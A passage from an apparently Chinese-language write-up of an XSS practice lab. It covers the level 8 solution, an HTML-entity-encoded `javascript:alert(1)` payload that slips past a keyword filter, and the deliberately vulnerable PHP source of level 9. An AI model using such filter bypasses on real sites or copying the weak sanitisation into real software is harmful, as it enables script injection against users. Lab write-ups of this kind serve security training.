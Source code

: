 第4行貌似是将`on`替换成`o_n`，构建payload：`javascript:alert(1)`，查看前端代码：

```html
</center><center><BR><a href="javascr_ipt:alert(1)">友情链接</a></center><center><img src=level8.jpg></center>
```

可见将`script`替换成`scr_ipt`。

***将payload进行 Unicode编码——`&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;`，过关。***

​	

​	

## 第九关

![](https://pic.imgdb.cn/item/64c8c15e1ddac507ccd8f63c.jpg)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level9</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
<center><img src=level9.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
</body>
```
